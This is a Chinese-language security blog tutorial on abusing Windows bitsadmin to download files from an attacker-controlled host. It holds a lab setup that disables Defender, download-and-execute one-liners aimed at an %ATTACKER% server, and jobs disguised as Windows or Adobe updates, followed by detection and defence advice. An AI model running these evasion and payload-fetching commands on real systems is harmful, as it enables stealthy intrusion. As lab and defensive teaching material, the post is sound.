








以前都以為 bitsadmin 只是個管理 BITS (Background Intelligent Transfer Service) 的工具，  
主要就是讓 Windows Update 可以在背景慢慢下載更新，  
甚至很多人可能根本不知道有這個指令存在：

```bash
bitsadmin /list                # 列出所有下載任務
bitsadmin /info JobName        # 查看任務資訊
bitsadmin /cancel JobName      # 取消任務
bitsadmin /reset              # 重設所有任務

```

但這個看起來無害的系統工具，其實是攻擊者最愛的下載工具之一，  
因為它可以完全在背景執行，還支援斷點續傳，  
所以這篇就來深入探討 bitsadmin 的暗黑用法吧

## 環境準備

* * *

今天的實作會需要兩台機器：

```
Attacker Machine: Kali
Victim Machine: Windows 11

```

### Attacker Machine (Kali):

```bash
# 建立今天的測試檔案
mkdir ~/bitsadmin_demo && cd ~/bitsadmin_demo

# 各種 payload
cat > payload.bat << 'EOF'
@echo off
echo PAYLOAD EXECUTED at %DATE% %TIME% > C:\Lab\bitsadmin\execution_log.txt
echo User: %USERNAME% >> C:\Lab\bitsadmin\execution_log.txt
start notepad C:\Lab\bitsadmin\execution_log.txt
calc.exe
EOF

echo "This is stage 1" > stage1.txt
echo "This is stage 2" > stage2.txt
dd if=/dev/zero of=large_file.bin bs=1M count=10 2>/dev/null  # 10MB 測試檔案

# 建立一個看起來像更新的檔案
echo "Windows Update Package KB5001234" > KB5001234.msu

# 啟動 Web Server
python3 -m http.server 8080

```

### Victim Machine (Windows 11):

```bash
:: 建立測試環境（用 CMD 執行，bitsadmin 在 CMD 比較順）
mkdir C:\Lab\bitsadmin
cd C:\Lab\bitsadmin

:: 關閉基本防護（測試環境）
powershell -c "Add-MpPreference -ExclusionPath 'C:\Lab\bitsadmin'"
powershell -c "Set-MpPreference -DisableRealtimeMonitoring $true"

```

## Bitsadmin 三個隱藏技巧＆特色

* * *

### 一一行指令下載檔案

最基本但也最常被濫用的功能就是直接下載：

```bash
:: 設定攻擊者 IP (記得換成你的 Kali IP)
set ATTACKER=<attacker ip>

:: 最簡單的下載方式
bitsadmin /transfer myDownloadJob /download /priority normal http://%ATTACKER%:8080/payload.bat C:\Lab\update.bat

:: 參數說明：
:: /transfer myDownloadJob - 任務名稱（攻擊者通常會用看起來正常的名字）
:: /download - 下載模式
:: /priority - 優先權設定：foreground(前景) / high(高) / normal(一般) / low(低)

```



你會發現下載過程完全沒有任何視窗彈出，  
而且在 Kali 端可以看到有趣的現象：



BITS 會先發送 HEAD 請求確認檔案存在，然後才開始下載！  
(這邊因為跑了兩次，所以有兩份請求)

### 二分段式隱密下載

更進階的攻擊者不會一次下載完，  
而是會分多個步驟，讓行為看起來更正常：

```bash
:: 建立任務但不立即下載
bitsadmin /create stealthDownload

:: 加入多個檔案到任務中
bitsadmin /addfile stealthDownload http://%ATTACKER%:8080/stage1.txt C:\Lab\bitsadmin\config.ini
bitsadmin /addfile stealthDownload http://%ATTACKER%:8080/stage2.txt C:\Lab\bitsadmin\update.ini

:: 設定低優先權（讓他可以慢慢來）
bitsadmin /setpriority stealthDownload LOW

:: 設定重試次數
bitsadmin /setminretrydelay stealthDownload 60
bitsadmin /setnoprogresstimeout stealthDownload 300

:: 開始下載
bitsadmin /resume stealthDownload

:: 查看進度
bitsadmin /info stealthDownload /verbose

:: 完成任務（這樣檔案才會真正寫入）
bitsadmin /complete stealthDownload

:: 再次檢查檔案
dir

```

  
  
  


這種方式的好處是可以慢慢下載，  
甚至可以設定在特定時間才開始，  
完全融入正常的系統背景活動中

### 三偽裝成 Windows Update

更進階的技巧是偽裝成正常的系統更新：

```bash
:: 使用看起來像 Windows Update 的任務名稱
bitsadmin /transfer "Windows Update KB5001234" /priority low http://%ATTACKER%:8080/KB5001234.msu C:\Windows\Temp\KB5001234.msu

:: 或偽裝成其他常見軟體更新
bitsadmin /transfer "AdobeReaderUpdate" /priority normal http://%ATTACKER%:8080/payload.bat "%PROGRAMDATA%\Adobe\update.exe"

```

### ️ Windows 11 的自動執行限制

原本 bitsadmin 有個 /SetNotifyCmdLine 參數可以設定下載完成後自動執行，  
但在測試中發現 Windows 11 已經加強了安全限制：

```bash
cmd:: 這個在 Windows 11 不會自動執行了
bitsadmin /create /download AutoExecJob
bitsadmin /addfile AutoExecJob http://%ATTACKER%:8080/payload.bat C:\Lab\task.bat
bitsadmin /SetNotifyCmdLine AutoExecJob C:\Lab\task.bat ""
bitsadmin /resume AutoExecJob
:: 需要手動 /complete，而且不會自動執行 task.bat

```

但如果今天只能 one line 的話還是可以用串的方式完成：

```
cmd:: 用 && 串接命令
bitsadmin /transfer job1 http://%ATTACKER%:8080/payload.bat C:\Lab\update.bat && C:\Lab\update.bat

```

  
成功跑出 notepad 跟 小算盤

## 那有可以防禦的方法嗎？

* * *

雖然 bitsadmin 很隱密，  
但還是有幾個特徵可以抓到它：

### Bitsadmin 惡意活動關鍵特徵

1.  **網路特徵**：BITS 會先發 HEAD 請求，User-Agent 包含 "Microsoft BITS"
2.  **任務名稱**：雖然可以偽裝，但異常的任務名稱還是能看出來
3.  **目標路徑**：下載到 %TEMP%%APPDATA%C:\\Users\\Public 等位置
4.  **執行來源**：一般使用者不會手動執行 bitsadmin.exe

### 查看痕跡

```bash
:: 查看所有 BITS 任務（CMD）
bitsadmin /list /allusers /verbose

:: 查看 BITS 服務狀態
sc query BITS

:: 查看 Event Log
powershell -c "Get-WinEvent -LogName 'Microsoft-Windows-Bits-Client/Operational' -MaxEvents 20"

```

  
  
（記得要用管理員執行）

### 防禦建議

1.  **監控非 Microsoft 網域**：BITS 正常情況只會連到 Microsoft 的伺服器
2.  **限制 bitsadmin 使用**：透過 AppLocker 限制只有管理員能執行
3.  **檢查異常任務名稱**：定期檢查是否有可疑的 BITS 任務
4.  **網路流量分析**：監控 HTTP Range 請求和 206 回應碼

```bash
# 如果不需要 BITS 服務，可以考慮停用（注意：會影響 Windows Update）
Stop-Service BITS
Set-Service BITS -StartupType Disabled

```

## 總結！

* * *

Bitsadmin 是個非常強大的 LOLBAS 工具，因為它：

*   完全在背景執行，使用者無感
*   支援斷點續傳，網路不穩也能成功
*   可以偽裝成正常的系統更新活動
*   Windows 內建，不需要額外安裝

p.s. 雖然 Microsoft 已經將 bitsadmin 標記為已棄用，建議改用 PowerShell 的 `Start-BitsTransfer`，但這個工具在 Windows 11 還是可以正常使用，而且攻擊者也還在持續使用它，所以還是要特別注意！